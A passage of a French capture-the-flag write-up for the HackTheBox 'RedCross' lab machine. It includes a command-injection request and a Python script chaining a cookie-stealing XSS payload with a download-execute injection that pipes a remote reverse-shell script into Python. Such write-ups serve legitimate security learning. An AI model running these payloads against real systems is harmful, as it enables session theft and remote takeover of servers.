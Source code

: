 J'ai remarqué que d'après l'output obtenu la dernière commande insérée semble exécutée deux fois :-/ Par conséquent j'ai préféré mettre la commande inoffensive *date* en bout de chaîne.  

La requête à envoyer sera de cette forme :  

```plain
POST https://admin.redcross.htb/pages/actions.php HTTP/1.1
ip=8.8.8.8;id;uname -a;pwd;date;&id=17&action=deny
```

![HackTheBox CTF RCE in IP management](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/redcross/redcross_zap_rce.png)

Puisque la machine est susceptible d'être réinitialisée j'ai écrit un script pour automatisuer toute cette première partie : envoyer le XSS via le formulaire de contact et injecter ensuite une commande download-execute dans l'interface admin :  

```python
from subprocess import check_output
from time import sleep
import re

import requests

output = check_output(["ifconfig", "tun0"], encoding="utf-8")
ip = re.search("inet (\d+\.\d+\.\d+\.\d+)", output).group(1)
print("Your IP is {}.".format(ip))

sess = requests.session()
response = sess.post(
    "https://intra.redcross.htb/pages/actions.php",
    data={
        "action": "contact",
        "body": "username=yolo",
        "cback": """<script>var img=document.createElement("img");img.src="http://{}/?"+encodeURI(document.cookie);document.body.appendChild(img);</script>""".format(ip),
        "subject": "credentials please"
    },
    verify=False
)
print(response.text)

sess_id = input("please enter session ID:").strip()
response = requests.post(
    "https://admin.redcross.htb/pages/actions.php",
    data={
        "ip": "8.8.8.8;curl http://{}/tcp_pty_backconnect.py|python;date;".format(ip),
        "id": "17",
        "action": "deny"
    },
    headers={"Cookie": "PHPSESSID={};".format(sess_id)},
    verify=False
)
print(response.text)
```
